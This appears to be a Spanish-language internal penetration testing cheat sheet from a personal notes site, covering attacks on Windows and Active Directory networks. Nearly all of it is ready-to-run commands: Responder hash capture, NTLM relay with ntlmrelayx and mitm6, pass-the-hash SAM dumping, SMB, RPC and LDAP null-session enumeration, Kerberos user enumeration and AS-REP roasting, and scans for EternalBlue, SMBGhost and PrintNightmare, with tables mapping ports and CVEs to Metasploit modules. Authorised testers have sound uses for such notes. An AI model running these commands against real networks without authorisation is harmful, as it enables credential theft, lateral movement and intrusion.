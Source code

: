 ```yaml
---
layout: default
title: Pentest Interno
---
```


# **Responder**

Modo capturar hashes
```bash
sudo responder -I eth0 -wdF
```

```
ls -la /usr/share/responder/logs
```

Modo relay

```bash
nxc smb ip/24 --gen-relay-list relay.txt
```

```bash
sudo nano /etc/responder/Responder.conf
```

`Ponemos en OFF SMB y HTTP`

```bash
sudo responder -I eth0 -FPv
```

```
sudo impacket-ntlmrelayx.py  -tf relay.txt -smb2support 
```

```bash
nxc smb IP/24 -U USER -H HASH  --local-auth --sam
```

Modo relay IPV6
```bash
sudo python3 mitm6.py -d DOMAIN
```

```bash
impacket-ntlmrelayx -6 -wh 10.17.0.213 -tf formated_relay.txt -socks -debug -smb2support
```

Filtrar por hashes distintos
```bash
ls -la  /usr/share/responder/logs | awk '{print $NF}' | tail -n 15 | xargs cat | grep '::IVI' | sort | uniq
```

Extraer usuarios válidos de los hashes
```bash
cat /usr/share/responder/logs | tr ':' ' ' | awk '{print $1}' | sort | uniq | grep -vE ',|\/|-|#'
```

___

Ver Host activos
```bash
sudo arp-scan -l | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' >> ips.txt
sudo nmap -sn  10.17.0.0/24 -oG - | awk '/Up$/{print $2}' >> ips.txt
cat ips.txt | sort | uniq > ips2.txt
```

smb.txt
```bash
nxc smb -t 10.17.0.0/24 
```

Nmap específico por puertos
```bash
nmap -p 445 10.17.0.0/24 -sS --open -oG - | awk '/445\/open/ {print $2}' > 445.txt
nmap -p 22 10.17.0.0/24 -sS --open -oG - | awk '/22\/open/ {print $2}' > 22.txt
nmap -p 21 10.17.0.0/24 -sS --open -oG - | awk '/21\/open/ {print $2}' > 21.txt
nmap -p 3306 10.17.0.0/24 -sS --open -oG - | awk '/3306\/open/ {print $2}' > 3306.txt
nmap -p 3389 10.17.0.0/24 -sS --open -oG - | awk '/3389\/open/ {print $2}' > 3389.txt
nmap -p 1433 10.17.0.0/24 -sS --open -oG - | awk '/1433\/open/ {print $2}' > 1433.txt
nmap -p 139 10.17.0.0/24 -sS --open -oG - | awk '/139\/open/ {print $2}' > 139.txt
nmap -p 389 10.17.0.0/24 -sS --open -oG - | awk '/389\/open/ {print $2}' > 389.txt
nmap -p 636 10.17.0.0/24 -sS --open -oG - | awk '/636\/open/ {print $2}' > 636.txt
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
nmap -p 23 10.17.0.0/24 -sS --open -oG - | awk '/23\/open/ {print $2}' > 23.txt
```

SMB null session
```bash
nxc smb 445.txt -u '' -p '' | grep '\[+\]'
nxc smb 445.txt -u '' -p '' --shares
smbmap -u 'null' --host-file smb_null.txt
smbmap -u '' --host-file smb_null.txt
smbclient -L 10.17.0.229 -N
smbclient -L 10.17.0.229 -N -m SMB3
smbclient -L 10.17.0.229 -N -m SMB2
```

RPC null session
```bash
while read ip; do
	echo "Probando null session RPC en $ip "
	rpcclient -U "" $ip -c "enumdomusers" && echo "Null session permitida en $ip" || echo "No null session en $ip"
done < 139.txt
```

```bash
while read ip; do\n  echo "Probando null session RPC en $ip"\n  impacket-lookupsid anonymous@DOMAIN -target-ip $ip -no-pass && echo "Null session permitida en $ip" || echo "No null session en $ip"\ndone < 139.txt
```
 
RDP, comprobar NLA
```bash
nmap -p 3389 -iL 3389.txt --script=rdp-enum-encryption
nxc rdp --nla-screenshot 3389.txt | grep "nla:False"
ls -lh /home/user/.nxc/screenshots/
rdesktop -u "" -p "" IP
```

LDAP probar consultas anónimas
```BASH
ldapsearch -x -H ldap://DOMAIN -s base  -b "" "(objectClass=*)"
ldapsearch -x -H ldap://DOMAIN -s base  -b "DC=,DC=" "(objectClass=*)"
```

Escanear páginas web rápido para saber si están activas

```bash
nmap -p 80 10.17.0.0/24 -sS --open -oG - | awk '/80\/open/ {print $2}' > 80.txt
nmap -p 8080 10.17.0.0/24 -sS --open -oG - | awk '/8080\/open/ {print $2}' > 8080.txt
nmap -p 443 10.17.0.0/24 -sS --open -oG - | awk '/443\/open/ {print $2}' > 443.txt
```

```bash
awk '{print "http://"$0":80"}' 80.txt >> urls.txt
```

```bash
awk '{print "http://"$0":8080"}' 8080.txt >> urls.txt
```

```bash
awk '{print "https://"$0":443"}' 443.txt >> urls.txt
```

```bash
sudo apt install unzip -y
wget https://github.com/projectdiscovery/httpx/releases/download/v1.7.1/httpx_1.7.1_linux_amd64.zip
unzip httpx-linux-amd64.zip
chmod +x httpx-linux-amd64
sudo mv httpx-linux-amd64 /usr/local/bin/httpx

~/go/bin/httpx -l urls.txt -sc -title -t 50 -timeout 5
```

Listado de usuarios válidos
```bash
./kerbrute userenum -d DOMAIN kerbrute_wordlist.txt 

impacket-GetNPUsers DOMAIN/ -no-pass -usersfile valid_users.txt -dc-ip IP
```

Wordlist para hacer password spraying
https://github.com/attackdebris/kerberos_enum_userlists.git


___

Listar software vulnerable, primero hacer un nmap targeted, después:

mssql
```bash
cat mssql_targeted | grep -E 'Nmap scan report|name: |number: ' | grep -v 'Instance' > vulnerable_mssql.txt
```

22.txt
```bash
awk '/Nmap scan report for/ {ip=$NF} /tcp/ && /open/ && /ssh/ {print ip, substr($0, index($0, $4))}' 22_targeted > vulnerable_ssh.txt
```

___

# Puertos típicos

| Puerto        | Servicio común        | Riesgos frecuentes / Exploits conocidos                             |
| ------------- | --------------------- | ------------------------------------------------------------------- |
| **21**        | FTP                   | Contraseñas en texto plano, anon login, RCE (vsftpd backdoor, etc.) |
| **22**        | SSH                   | Bruteforce, versiones viejas de OpenSSH (7.x, 8.x) con CVEs         |
| **23**        | Telnet                | Texto plano, acceso sin cifrar, default creds                       |
| **25**        | SMTP                  | Relay abierto, RCE por buffer overflow                              |
| **53**        | DNS                   | Cache poisoning, DoS, zone transfer                                 |
| **80**        | HTTP                  | Web vulns (LFI, RCE, XSS, SQLi), paneles sin auth                   |
| **110**       | POP3                  | Texto plano, credenciales expuestas                                 |
| **135**       | RPC                   | Windows RCE (MS03-026, DCOM, etc.)                                  |
| **139**       | NetBIOS               | Enumeración, ataques LLMNR/NetBIOS                                  |
| **143**       | IMAP                  | Texto plano, default creds                                          |
| **389**       | LDAP                  | Enumeración, credenciales en texto plano                            |
| **445**       | SMB                   | MS17-010 (EternalBlue), RCE, cred capture (Responder)               |
| **512-514**   | R* services           | RSH/Rlogin inseguros                                                |
| **3306**      | MySQL                 | Default creds, inyecciones                                          |
| **3389**      | RDP                   | Bruteforce, BlueKeep (CVE-2019-0708), cred reuse                    |
| **5432**      | PostgreSQL            | Default users, inyecciones SQL                                      |
| **5900**      | VNC                   | Sin autenticación, acceso completo                                  |
| **5985/5986** | WinRM                 | RCE si hay credenciales disponibles                                 |
| **8000-9000** | Web apps/dev services | Jenkins, Tomcat, Jupyter, etc. → muchos sin auth por defecto        |
| **9200**      | Elasticsearch         | RCE, info leak si sin auth                                          |
| **11211**     | Memcached             | Amplification DDoS                                                  |

# Vuns típicas

| Nombre             | CVE            | Servicio              | Descripción                                          | Explotable en Metasploit                           |
| ------------------ | -------------- | --------------------- | ---------------------------------------------------- | -------------------------------------------------- |
| **EternalBlue**    | CVE-2017-0144  | SMBv1 (445)           | RCE por buffer overflow en SMBv1 (Win7, Win2008, XP) | ✅ Sí (exploit/windows/smb/ms17_010_eternalblue)    |
| **SMBGhost**       | CVE-2020-0796  | SMBv3 (445)           | RCE en SMBv3.1.1 (Windows 10/2019)                   | ✅ (scripts y PoCs)                                 |
| **BlueKeep**       | CVE-2019-0708  | RDP (3389)            | RCE en Remote Desktop (Win7/Server 2008)             | ✅ (exploit/windows/rdp/cve_2019_0708_bluekeep_rce) |
| **PrintNightmare** | CVE-2021-34527 | RPC/Spooler (135/445) | RCE por falla en spooler                             | ✅ (exploit/windows/local/printnightmare)           |

Escáneres :

```bash
nxc smb 10.17.0.0/24 -M eternalblue
```

```bash
nxc smb 10.17.0.0/24 -M printnightmare
```

```bash
nxc smb 10.17.0.0/24 -M smbghost
```